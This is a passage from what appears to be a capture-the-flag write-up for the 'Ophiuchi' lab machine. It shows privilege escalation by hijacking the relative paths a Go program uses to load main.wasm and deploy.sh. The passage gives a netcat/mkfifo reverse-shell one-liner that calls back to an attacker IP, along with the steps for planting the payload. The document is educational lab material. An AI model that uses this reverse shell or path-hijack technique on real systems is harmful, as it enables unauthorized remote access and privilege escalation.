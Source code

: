 As we can see, this is a Go Lang script that loads its variables from `main.wasm` and, if the value `f` under property `info` is equal to **1**, the file `deploy.sh` is executed.

As both files (`main.wasm` e `deploy.sh`) execute from a relative path, they are vulnerable to **path hijacking**, which we'll try now.

The initial step is to create both files and start them from a directory we have to write permissions, in this case, `/dev/shm`.

```bash
mkdir /dev/shm/zurc
cd /dev/shm/zurc
```

### `deploy.sh`

Creating this file is easy. At first, I'll just place an `id` command to be sure we have succeeded with the permission abuse.

```bash
#!/bin/bash

id
```

Once confirmed, we'll replace this file contents with the reverse shell command line below

```bash
#!/bin/bash

rm /tmp/zurc;mkfifo /tmp/zurc;cat /tmp/zurc|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/zurc
```

### `main.wasm`

This item is a little more complex to craft as when I first opened it in the editor, noticed that was something compiled and not plain text.

Searching a little on how to modify a wasm file, found this blog post on Mozilla developers [on how to convert a WebAssembly Text to WASM](https://developer.mozilla.org/en-US/docs/WebAssembly/Text_format_to_wasm), which also refers to the repo [WebAssembly/wabt: The WebAssembly Binary Toolkit no GitHub](https://github.com/webassembly/wabt).

The following steps were used to inspect and modify the `main.wasm` file:

- Locate the file in the victim machine and make a copy using `scp`

```bash
# Ophiuchi
admin@ophiuchi:~$ find / -type f 2> /dev/null | grep main.wasm
/opt/wasm-functions/main.wasm
/opt/wasm-functions/backup/main.wasm
```

```bash
# Attacker Machine
$ cd ./loot
$ scp admin@10.10.10.227:/opt/wasm-functions/main.wasm .
```
